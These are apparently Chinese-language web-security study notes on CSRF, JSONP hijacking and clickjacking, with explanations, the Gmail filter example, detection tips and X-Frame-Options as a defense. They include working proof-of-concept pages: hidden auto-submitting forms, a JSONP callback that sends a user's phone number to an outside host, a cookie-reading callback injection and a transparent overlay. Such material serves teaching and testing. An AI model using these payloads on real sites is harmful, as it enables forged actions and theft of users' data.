




# CSRF

CSRF (Cross-site request forgery)是一种对网站的恶意利用。

它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装成受信任用户请求受信任的网站。


### 利用条件

CSRF为什么能够攻击成功?

其本质原因是重要操作的所有参数都是可以被攻击者猜测到的。

攻击者只有预测出URL的所有参数与参数值，才能成功地构造一个伪造的请求;



从上图能够看出，要完毕一次CSRF攻击，受害者必须依次完毕两个步骤：

```
        登录受信任站点A，并在本地生成Cookie。

        在不登出A的情况下，访问危急站点B。
```


### CSRF分类

CSRF(Cross-Site Request Forgery)，跟XSS漏洞攻击一样，存在巨大的危害性。

1. GET类型的CSRF

仅仅须要一个HTTP请求。就能够构造一次简单的CSRF。

示例:

银行站点A：它以GET请求来完毕银行转账的操作，如：

```
http://www.mybank.com/Transfer.php?toBankId=11&money=1000 
```

危险站点B：它里面有一段HTML的代码例如以下：

```
<!-- 隐藏图片，自动发起转账请求 -->

```

首先。你登录了银行站点A，然后访问危险站点B，噢，这时你会发现你的银行账户少了1000块。


2.POST类型的CSRF

情况一

大多数CSRF攻击发起时，使用的HTML标签都是

```
<image>、<iframe>、<script>
```

等带“src"属性的标签，这类标签只能够发起一次GET请求，而不能发起POST请求。

而对于很多网站的应用来说，一些重要操作并未严格地区分GET与POST，攻击者可以使用GET来请求表单的提交地址。比如在PHP中，如果使用的是_POST获取变量，则会存在这个问题。

对于一个表单来说，用户往往也就可以使用GET方式提交参数。比如以下表单:

```
<form action=" / register" id="register" method="post" >
<input type=text name="username" value="" />
<input type=password name="password" value="" />
<input type=submit name="submit" value="submit" />
</form>
```

提交后产生的 HTTP 请求包示例

```
POST /register HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Cookie: 用户登录Cookie（如有）

username=testuser&password=123456
```

用户可尝试构造一个GET请求

```htnl
http://host/register?username=test&password=passwd
```

来提交，若服务器端未对请求方法进行限制，则这个请求会通过。


情况二

如果服务器端已经区分了GET与POST，那么攻击者有什么方法呢?对于攻击者来说，若干种方法可以构造出一个POST请求。

最简单的方法，就是在一个页面中构造好一个表单表单，然后使用JavaScript自动提交这个表单。比如，攻击者在

```
www.b.com/test.html
```

中编写如下代码：

```
<form action="http://www.a.com/register" id="register" method="post" >
<input type=text name="username" value=""/>
<input type=password name="password" value=""/>
<input type=submit name="submit" value="submit"/></ form>
<script>
var f = document.getElementById ("register");
f.inputs [0].value = "test";
f.inputs [1].value = "passwd" ;
f.submit ();
</script>
```

攻击者甚至可以将这个页面隐藏在一个不可见的iframe 窗口中，那么整个自动提交表单的过程，对于用户来说也是不可见的。

方式 1：iframe 加载外部 test.html（对应课本描述）

> 恶意页面 `www.b.com/mal.html`，iframe 嵌入刚才的 test.html，设置完全隐藏。

```
<!-- 恶意页面 mal.html -->
<!DOCTYPE html>
<html>
<body>
<!-- 不可见iframe：宽高0、display:none，用户看不到任何东西 -->
<iframe src="test.html" style="width:0;height:0;display:none"></iframe>
</body>
</html>
```

逻辑流程：

1. 用户访问 `www.b.com/mal.html`
2. 浏览器加载页面，创建看不见的 iframe，去加载 `test.html`


方式 2：把表单直接写在 iframe 里面（不单独 test.html，单文件 POC）

不需要额外文件，全部写在同一个恶意页面，表单放在 iframe 内部，这是实战更常用的 POC：

```
<!DOCTYPE html>
<html>
<head>
<meta charset="utf‑8">
</head>
<body>
<!-- 隐藏iframe，给name，表单target指向这个iframe，提交后在iframe中执行，不跳转主页面 -->
<iframe name="csrfframe" style="display:none;width:0;height:0"></iframe>

<form action="http://www.a.com/register" id="register" method="post" target="csrfframe">
    <input type="text" name="username" value=""/>
    <input type="password" name="password" value=""/>
    <input type="submit" name="submit" value="submit"/>
</form>

<script>
var f = document.getElementById("register");
// 注意：标准属性是 elements，教材写的 inputs 部分浏览器不兼容
f.elements[0].value = "test";
f.elements[1].value = "passwd";
f.submit();
</script>
</body>
</html>
```


优点:

如果不使用 iframe，直接在主页面执行 form.submit () 提交 POST 表单：浏览器会**跳转到a.com/registerFile页面**

用 iframe 之后，表单提交的响应在看不见的 iframe 中处理，攻击者页面不会跳转，受害者完全没有感知。

防御：X‑Frame‑Options(XFO)

```
X‑Frame‑Options: DENY
```

浏览器拒绝a.comFile

> 但是！**不影响 img 标签的 GET‑CSRF**，XFO 只防护 iframe。


### CSRF示例

在2007年的Gmail CSRF漏洞攻击过程中，安全研究者pdp展示了这一技巧。首先，用户需要登录Gmail账户，以便让浏览器获得Gmail的临时Cookie。



用户登录Gmail

然后，攻击者诱使用户访问一个恶意页面。



在这个恶意页面中，隐藏了一个iframe，iframe的地址指向pdp写的CSRF构造页面。

```
http://www.gnucitizen.org/util/csrf?_method=POST&_enctype=multipart/form-data&_action=https%3A//mail.google.com/mail/h/ewtljmuj4ddv/%3Fv%3Dprf&cf2_emc=true&cf2_email=evilinboxmailinator.com&cfl_from&cfl_toucf1_subjicf1_has&cfl_hasnotscf1_attach=truestfi&S=z&irf=on&nvp bu_cftb=Create%20Filter
```

这个链接的实际作用就是把参数生成一个POST的表单，并自动提交。
由于浏览器中已经存在Gmail的临时Cookie，所以用户在iframe中对Gmail发起的这次请求会成功―—邮箱的Filter中会新创建一条规则，将所有带附件的邮件都转发到攻击者的邮箱中。



恶意站点通过CSRF在用户的Gmail中建立一条规则。


### CSRF漏洞的挖掘

1、最简单的方法就是抓取一个正常请求的数据包，如果没有Referer字段和token，那么极有可能存在CSRF漏洞。

2、如果有**Referer**字段，但是去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

3.随着对CSRF漏洞研究的不断深入，不断涌现出一些专门针对CSRF漏洞进行检测的工具，如CSRFTester

使用CSRFTester进行测试时，首先需要抓取我们在浏览器中访问过的所有链接以及所有的表单等信息，然后通过在CSRFTester中修改相应的表单等信息，重新提交，这相当于一次伪造客户端请求。


### jsonp跨域请求

JSONP(JSON with Padding)是JSON的一种“使用模式”，可用于解决主流浏览器的[跨域数据](https://zhida.zhihu.com/search?content_id=1942814&content_type=Article&match_order=1&q=跨域数据&zhida_source=entity)访问的问题。

由于同源策略，一般来说位于 server1.example.com 的网页无法与不是 server1.example.com的服务器沟通

而 HTML 的script 元素是一个例外。利用 script 元素的这个开放策略，网页可以得到从其他来源动态产生的 JSON 资料，而这种使用模式就是所谓的 JSONP。用 JSONP 抓到的资料并不是 JSON，而是任意的JavaScript，用 JavaScript 直译器执行而不是用 JSON 解析器解析。


条件:

- 它**只支持GET请求**而不支持 `POST` 等其它类型的 HTTP 请求


示例:

```
<script>
// 1. 本地预先定义好回调函数
function Jsonpxxxcallback(data){
    console.log(data); // 拿到后端返回的数据并打印到控制台
}
</script>

<!-- 2. script标签跨域请求目标接口，传递callback参数 -->
<script src="https://www.hardlic.top/readme.php?callback=Jsonpxxxcallback"></script>
```

```
<script>
function Jsonpxxxxcallback(data){
    // 创建图片标签
    var img = document.createElement('img');
    // 拼接手机号到攻击者接口，url传参
    img.src = "https://www.hardlic.top/data?data="+ data.phone;
    // 插入head发起跨域GET上传数据
    document.head.appendChild(img);
}
</script>
<!-- JSONP请求目标漏洞接口 -->
<script src="http://112.74.127.232/readme.php?callback=Jsonpxxxxcallback"></script>
```


JSONP 的安全风险（考点重点）

1. 敏感信息泄露

接口返回用户手机号、姓名这类隐私数据，**任意网站都能通过 script 标签跨域拉取**：

- 恶意网站插入这段 script，无需用户授权，直接拿到百度接口返回的用户隐私；
- 不存在跨域拦截，script 标签天然跨域，同源策略管不住。

2. 核心漏洞：未过滤 callback 参数（回调劫持）

如果后端**没有白名单校验 callback 函数名**

 示例恶意请求：

```
https://www.baidu.com/readme?callback=alert(document.cookie)
```

后端直接拼接返回：

```
alert(document.cookie)({"name":"xhj","phone":"18888888888"})
```

页面加载后直接弹出站点 Cookie，窃取登录凭证。


### 遍历脚本

```
<body>
<script>
// 循环 i 从 10001 到 10999（i < 11000）
for(var i = 10001; i < 11000; i++){
    // 创建iframe标签
    var iframe = document.createElement('iframe');
    // 拼接URL，遍历id参数：10001、10002 ... 10999
    iframe.src = `http://www.hardlic.top/readme.php?id=${i}`;
    // 插入页面head，自动发起跨域GET请求
    document.head.appendChild(iframe);
}
</script>
</body>
```


### 点击劫持

```
<a href="https://www.baidu.com" style="position:relative;z-index:9999;">点击领取福利</a>
<iframe src="http://www.hardlic.top/readme.php?id=10001" style="opacity:0;width:100%;height:100%;position:absolute;top:0;left:0;"></iframe>
```

关键样式解读

1. a标签： 
   - `position:relative;z-index:9999`：层级拉到最高，浮在页面最上层，用户肉眼只能看见这个 “领福利” 按钮。
2. "<iframe>"标签（点击劫持核心）：
   - `opacity:0`：完全透明，肉眼不可见；
   - `width:100%;height:100%;position:absolute;top:0;left:0`：铺满整个浏览器窗口；
   - 加载目标站点 `hardlic.top` 的接口，iframe 里会展示目标页面的按钮（比如删除、查询、提交）。


### csrf常见功能点，以及csrf高风险功能点(可用于提高评分)

修改头像，修改个人信息,删除xxx资源，删除xxx物品，购买xxx物品，发布文章，发布评论，修改文章，修改评论


### csrf蠕虫传播(一般描述理论可行就行了)

```
http://example.com/submit?submit=
```


